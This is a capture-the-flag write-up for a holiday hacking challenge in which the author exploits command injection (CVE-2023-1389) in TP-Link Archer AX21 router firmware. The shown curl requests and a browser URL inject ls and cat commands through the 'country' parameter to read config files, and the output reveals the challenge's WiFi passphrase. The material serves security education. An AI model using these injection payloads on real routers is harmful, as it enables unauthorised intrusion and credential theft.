



Dosis Network Down

Mischievous gnomes have locked down JJ’s network, requiring us to perform a rescue operation on a compromised Wi-Fi router. Can we restore connectivity and bring the holiday cheer back?
Challenge Overview
We begin by identifying the target as a TP-Link Archer AX21 v2.0 router displaying firmware version 1.1.4 Build 20230219 on the login portal. Online searches for this specific build reveal it is vulnerable to CVE-2023-1389. It has a flaw in the web management interface that allows for remote code execution without valid credentials.
Side Note: Escaping the Iframe - Opening Challenges in Their Own Tabs
For the best experience, I recommend opening the challenge environment in a dedicated browser tab. This reveals the full URL structure and ensures all UI elements are visible. For this challenge, the responsive design can hide the Firmware Version on the login page when viewed within the default small iframe.
- Open your browser's Developer Tools (F12).
- In the
Elementstab, do a search foriframe. - Right-click the URL in the
srcattribute and select Open in new tab.

Exploitation
Guided by the Tenable research
regarding CVE-2023-1389, I crafted a payload to inject commands via the country
parameter at the cgi-bin/luci/;stok=/locale endpoint. The payload
operation=write&country=$(ls) is designed to execute the ls command on the
router.
As the Tenable article
mentioned, I found that the exploit requires the payload to be sent twice to
successfully retrieve the output.
$ curl -X POST 'https://dosis-network-down.holidayhackchallenge.com/cgi-bin/luci/;stok=/locale?form=country' \ -H 'Content-Type: application/x-www-form-urlencoded' \ -d 'operation=write&country=$(ls)' OK% $ curl -X POST 'https://dosis-network-down.holidayhackchallenge.com/cgi-bin/luci/;stok=/locale?form=country' \ -H 'Content-Type: application/x-www-form-urlencoded' \ -d 'operation=write&country=$(ls)' bin cgi-bin dev etc home lib lib64 mnt opt proc root sbin sys tmp usr var www
After confirming command execution, I modified the payload to read the router configuration file
/etc/hostapd.conf to retrieve the WiFi password.
$ curl -X POST 'https://dosis-network-down.holidayhackchallenge.com/cgi-bin/luci/;stok=/locale?form=country' \ -H 'Content-Type: application/x-www-form-urlencoded' \ -d 'operation=write&country=$(cat /etc/hostapd.conf)' OK% $ curl -X POST 'https://dosis-network-down.holidayhackchallenge.com/cgi-bin/luci/;stok=/locale?form=country' \ -H 'Content-Type: application/x-www-form-urlencoded' \ -d 'operation=write&country=$(cat /etc/hostapd.conf)' # DOSIS-Link AX1800 Web Interface Configuration interface=default_radio0 driver=nl80211 ssid=DOSIS-247_2.4G hw_mode=g channel=6 wmm_enabled=1 macaddr_acl=0 auth_algs=1 ignore_broadcast_ssid=0 wpa=2 wpa_passphrase=SprinklesAndPackets2025! wpa_key_mgmt=WPA-PSK wpa_pairwise=TKIP rsn_pairwise=CCMP country_code=US ieee80211n=1 ht_capab=[HT40][SHORT-GI-20][SHORT-GI-40]
The WiFi password is revealed as SprinklesAndPackets2025!
Alternate Method: HTTP GET
I later found a writeup by Fortinet that demonstrates that the same command injection can be achieved using HTTP GET which can be sent via a browser. The request still needs to be sent twice. To preserve the spacing, I used the browser's view-source feature to see the output. The URL format is as follows:
view-source:https://dosis-network-down.holidayhackchallenge.com/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(cat%20/etc/config/wireless)
Challenge Reference Material
Challenge Descriptions
Classic Mode Description
Drop by JJ's 24-7 for a network rescue and help restore the holiday cheer. What is the WiFi password found in the router's config?
CTF Mode Description
Alright then. Those bloody gnomes have proper messed about with the neighborhood's wifi - changed the admin password, probably mucked up all the settings, the lot. Now I can't get online and it's doing me head in, innit? We own this router, so we're just taking back what's ours, yeah? You reckon you can help me hack past whatever chaos these little blighters left behind? What is the WiFi password found in the router's config?
Official Hints
- You know...if my memory serves me correctly...there was a lot of fuss going on about a UCI (I forgot the exact term...) for that router.
- I can't believe nobody created a backup account on our main router...the only thing I can think of is to check the version number of the router to see if there are any...ways around it...